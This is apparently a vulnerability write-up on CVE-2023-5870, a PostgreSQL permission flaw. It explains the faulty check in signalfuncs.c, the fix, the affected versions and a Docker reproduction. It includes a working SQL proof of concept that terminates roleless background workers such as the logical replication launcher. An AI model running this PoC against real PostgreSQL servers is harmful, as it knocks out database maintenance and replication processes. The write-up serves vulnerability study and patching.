



# CVE-2023-5870 CWE-400 PostgreSQL DoS

## Vulnerability Background
- **PostgreSQL:** PostgreSQL is an open-source, powerful object-relational database management system widely used in web development, data analysis, and enterprise-level applications. It supports ACID transactions, complex queries, full-text searches, and Multi-Version Concurrency Control (MVCC), ensuring high concurrency and data consistency. PostgreSQL offers extensibility, allowing users to customize data types, functions, and indexes, and also supports JSON and geospatial data.
- **Background Worker:** PostgreSQL is a special process other than regular client sessions, started by core systems (such as autovacuum launcher, logical replication launcher) or extended registrations, used to perform maintenance tasks, replication, scheduling, and other long-term tasks in the background; They usually do not belong to specific database roles (`usesysid` are NULL), are managed and pulled up by Postmaster, and if an exception occurs, they will be automatically restarted.
- **pg_signal_backend :** A special built-in role in PostgreSQL allows members to send control signals to other backend processes (such as canceling queries via `pg_cancel_backend` or ending sessions `pg_terminate_backend`), typically used for operations or monitoring scenarios; However, it is not a superuser, and its permission scope should be limited to secure signal operations. If inspections are not strict, it may be abused to signal critical background processes, causing denial of service.
- **pg_cancel_backend(pid) method:** Sends the **SIGINT signal** to a specified backend process. This signal does not directly kill the process but triggers the backend to detect the cancel flag in the execution loop, thereby terminating the currently running SQL statement in the form of a `ERROR: canceling statement due to user request`. The session itself remains connected, so it is often used for queries during consumption without affecting user resubmission requests.
- **CWE-400 (Uncontrolled Resource Consumption):** Applications fail to effectively limit the consumption of critical resources (such as CPU, memory, disk, bandwidth, process handles, etc.). Attackers can overload the system by constructing large numbers or malicious requests, causing severe performance degradation or service unavailability. Such issues typically manifest as Denial of Service (DoS).

## Vulnerability Mechanism
PostgreSQL provides a `pg_cancel_backend()` function (and a similar `pg_terminate_backend()`) that allows users to signal specific sessions or background processes to cancel running queries. Usually, this permission is only granted to superusers to prevent misuse. Due to flaws in PostgreSQL's permission checking, users with `pg_signal_backend` privileges can arbitrarily send termination signals to background processes such as autovacuum and logical replication, thereby inducing process exit or repeated restarts, resulting in Denial of Service (DoS).

## Vulnerability Location
Analysis of PostgreSQL 15.0 source code:

In the src/backend/storage/ipc/signalfuncs.c file, line 49 of the `pg_signal_backend` function is used to locate the corresponding PostgreSQL process control block based on the PID and securely forward the signal to the backend or session processes.

Line 78 only tightens permissions when **target process belongs to a superuser**. However, many background worker threads/launchers (such as **autovacuum launcher, logical replication launcher**, and many extended background workers) **do not bind to the regular database role** in `PGPROC`, and their `proc->roleId == InvalidOid` (equivalent to...  `usesysid IS NULL` ）。 For such "no roles**" targets, the above judgment is **false** (not "superuser ownership"), so **super admin restrictions will not be triggered**.

Immediately after, at line 82, the second gate allows "non-superusers with `ROLE_PG_SIGNAL_BACKEND`" to signal it. **Non-superusers but with `pg_signal_backend` capabilities** can arbitrarily send `SIGTERM/SIGINT` to these "roleless" background processes, causing them to exit and form **functional DoS** (an unavailable window before being pulled by postmaster; Repeated signaling can cause continuous DoS).

```c
// signalfuncs.c file, line 49
pg_signal_backend(int pid, int sig)
{
	PGPROC	   *proc = BackendPidGetProc(pid);

	if (proc == NULL)
	{
		ereport(WARNING,
				(errmsg("PID %d is not a PostgreSQL backend process", pid)));

		return SIGNAL_BACKEND_ERROR;
	}

    // 78 lines ***** only for "backends" with super admin restrictions ***** ⚠️ vulnerability points*****
	if (superuser_arg(proc->roleId) && !superuser())
		return SIGNAL_BACKEND_NOSUPERUSER;

	// 82 lines ***** non-superuser signaling with ROLE_PG_SIGNAL_BACKEND*****
	if (!has_privs_of_role(GetUserId(), proc->roleId) &&
		!has_privs_of_role(GetUserId(), ROLE_PG_SIGNAL_BACKEND))
		return SIGNAL_BACKEND_NOPERMISSION;

#ifdef HAVE_SETSID
	if (kill(-pid, sig))
#else
	if (kill(pid, sig))
#endif
	{
		/* Again, just a warning to allow loops */
		ereport(WARNING,
				(errmsg("could not send signal to process %d: %m", pid)));
		return SIGNAL_BACKEND_ERROR;
	}
	return SIGNAL_BACKEND_SUCCESS;
}
```

## Remediation

Upgrade to PostgreSQL 11.22, 12.17, 13.13, 14.10, 15.5, 16.1, or later. Commit `3a9b18b3095366cd0c4305441d426d04572d88c1` treats a backend with an invalid or unadvertised role OID as superuser-owned for signaling purposes, so members of `pg_signal_backend` cannot terminate sensitive auxiliary processes.

Until upgraded, revoke `pg_signal_backend` from untrusted roles and grant backend-signaling capability only through a narrowly scoped administrative procedure. Audit existing role memberships after applying the update.
The goal of "**InvalidOid)**" is also included in the collection of "**Superuser Only Signalable**"

```c
/*
 * Only allow superusers to signal superuser-owned backends.  Any process
 * not advertising a role might have the importance of a superuser-owned
 * backend, so treat it that way.
 */
if ((!OidIsValid(proc->roleId) || superuser_arg(proc->roleId)) &&
    !superuser())
    return SIGNAL_BACKEND_NOSUPERUSER;
```

## Affected Versions
**Affected version:** PostgreSQL:

- 11.0 to 11.21
- 12.0 to 12.16
- 13.0 to 13.12
- 14.0 to 14.9
- 15.0 to 15.4

## Environment Setup
Start the Docker environment, PostgreSQL version 15.0, administrator postgres, password postgres, database test exists.

```txt
NIST:NVD   Base Score:4.3 MEDIUM   Vector:CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:N/I:L/A:N

CNA:Red Hat, Inc.   Base Score:3.1 LOW    Vector:CVSS:3.1/AV:N/AC:H/PR:L/UI:N/S:U/C:N/I:L/A:N
```

```txt
cpe:2.3:a:postgresql:postgresql:15.0:*:*:*:*:*:*:*
```



## Vulnerability Reproduction
1. Use Postgres user identity to connect to the PostgreSQL database test in the container and run the PoC file. Step 5 returns line 0, indicating that the target is indeed not in `pg_stat_activity` at the time of the query (terminated).

   ```bash
   docker exec -it postgres-15.0 psql -U postgres -d test -f CVE-2023-5870-PoC.sql
   ```

   
2. Check the container logs, and you can see that the LR launcher was successfully terminated, successfully causing a functional DoS.

   ```bash
   docker logs postgres-15.0 
   ```

   

## PoC Analysis

```sql
CREATE OR REPLACE FUNCTION terminate_nothrow(pid int) RETURNS bool
LANGUAGE plpgsql SECURITY DEFINER SET client_min_messages = error AS $$
BEGIN
  RETURN pg_terminate_backend($1);
EXCEPTION WHEN OTHERS THEN
  RETURN false;
END$$;

ALTER FUNCTION terminate_nothrow OWNER TO pg_signal_backend;

SET ROLE signal_user;
SELECT backend_type
FROM pg_stat_activity
WHERE CASE WHEN COALESCE(usesysid, 10) = 10 THEN terminate_nothrow(pid) END;
RESET ROLE;
```

Create terminate_nothrow functions using SECURITY DEFINER wrappers, which execute the function body as the **function owner** (not the caller). Then wrap `pg_terminate_backend(pid)` into a **error-free** Boolean function (failure returns `false`), making it easier to call in `WHERE` clauses.

If the function owner is set to `pg_signal_backend`, then when **non-superuser** calls the function, it will "backhatch" and gain the ability to send signals.

Then, use `COALESCE(usesysid,10)=10` to select the target for **"usesysid IS NULL"** (which happens to cover launcher/most background workers). Calling `terminate_nothrow(pid)` in `WHERE` actually **signals every PID hit**.

## References
[NVD - CVE-2023-5870](https://nvd.nist.gov/vuln/detail/CVE-2023-5870)

[Ban role pg_signal_backend from more superuser backend types. · postgres/postgres@3a9b18b](https://github.com/postgres/postgres/commit/3a9b18b3095366cd0c4305441d426d04572d88c1#diff-31e00d5e45bc257711547428e70409549588c73a57cb3676302efa26d24303de)
